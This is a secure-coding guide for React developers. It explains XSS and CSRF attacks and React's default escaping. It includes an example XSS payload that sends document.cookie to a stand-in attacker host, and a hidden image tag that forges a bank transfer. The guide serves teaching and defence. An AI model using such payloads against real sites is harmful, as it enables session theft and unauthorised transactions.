 ### Securing React Applications: A Senior Developer's Guide

### Part 1: The Most Common Web Application Attacks (and their relation to React)

While many of these attacks are not specific to React, a React SPA (Single-Page Application) has a unique architecture that changes how you must defend against them.

---

#### 1. Cross-Site Scripting (XSS)

*   **What it is:** XSS is an injection attack where a malicious actor injects malicious scripts (usually JavaScript) into a trusted website. When an unsuspecting user visits the page, their browser executes this script, which can then steal session tokens, scrape personal data, or perform actions on behalf of the user.

*   **Illustration (The Malicious Comment Analogy):**
    Imagine a blog's comment section.
    1.  **The Attack:** An attacker posts a comment that isn't just text, but includes a script tag:
        `I love this article! <script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>`
    2.  **The Vulnerability:** The blog's backend naively saves this comment to the database. The frontend React app fetches the comments and renders the comment's content directly into the DOM without sanitizing it.
    3.  **The Impact:** Every user who views the comment section will have their browser execute the malicious script. Their session cookie is sent to the attacker's server, allowing the attacker to hijack their logged-in session.

*   **Relevance to React:** React does a great job of protecting you from this by default. When you render data like `{data.comment}`, React automatically escapes the content, turning `<script>` into `&lt;script&gt;`. The vulnerability arises when you intentionally bypass this protection.

![image](https://miro.medium.com/v2/resize:fit:1200/format:webp/0*nFartllrnD_jYUQO)


---

#### 2. Cross-Site Request Forgery (CSRF)

*   **What it is:** A CSRF attack tricks an authenticated user into unknowingly submitting a malicious request to a web application they are logged into. The browser automatically includes any relevant cookies (like session cookies) with the request, making the server think it's a legitimate action.

*   **Illustration (The Hidden "Transfer Funds" Image Analogy):**
    1.  **The Setup:** A user is logged into their online bank at `bank.com`. Their session is maintained by a cookie.
    2.  **The Attack:** The user then visits a malicious website, `evil.com`, which has a seemingly innocent image on it. However, the image tag's source is crafted to perform an action:
        `<img src="https://bank.com/transfer?to=attacker&amount=1000" width="1" height="1" />`
    3.  **The Impact:** The user's browser sees the `src` and automatically makes a GET request to `bank.com` to fetch the "image". Because the user is logged into `bank.com`, the browser helpfully attaches their session cookie to the request. The bank's server receives a legitimate-looking request from an authenticated user and processes the transfer. The user never sees anything happen.
